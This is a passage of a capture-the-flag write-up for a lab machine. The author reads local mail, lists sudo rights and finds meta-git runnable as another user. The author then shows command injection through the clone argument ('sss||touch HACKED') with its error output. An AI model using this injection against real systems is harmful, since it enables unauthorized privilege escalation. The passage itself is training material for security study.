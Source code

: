 ## Shell as gbyolo

### mail

Upon logging in via SSH, I immediately see the user `gbyolo` has mail. Let's check it.

```sh
gbyolo@faculty:~$ mail
"/var/mail/gbyolo": 1 message 1 unread
>U   1 developer@faculty. Tue Nov 10 15:03  16/623   Faculty group
? 1
Return-Path: <developer@faculty.htb>
X-Original-To: gbyolo@faculty.htb
Delivered-To: gbyolo@faculty.htb
Received: by faculty.htb (Postfix, from userid 1001)
        id 0399E26125A; Tue, 10 Nov 2020 15:03:02 +0100 (CET)
Subject: Faculty group
To: <gbyolo@faculty.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20201110140302.0399E26125A@faculty.htb>
Date: Tue, 10 Nov 2020 15:03:02 +0100 (CET)
From: developer@faculty.htb
X-IMAPbase: 1605016995 2
Status: O
X-UID: 1

Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb
```

### sudo -l

```sh
gbyolo@faculty:~$ sudo -l
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

### meta-git

A quick search for `meta-git exploit` brings me to this article from [Hacker One](https://hackerone.com/reports/728040). It appears we can achieve ~~remote~~ code execution. Let's test it out.

```sh
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'sss||touch HACKED'
meta git cloning into 'sss||touch HACKED' at sss||touch HACKED

sss||touch HACKED:
fatal: repository 'sss' does not exist
sss||touch HACKED ✓
(node:7954) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/tmp/sss||touch HACKED'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
```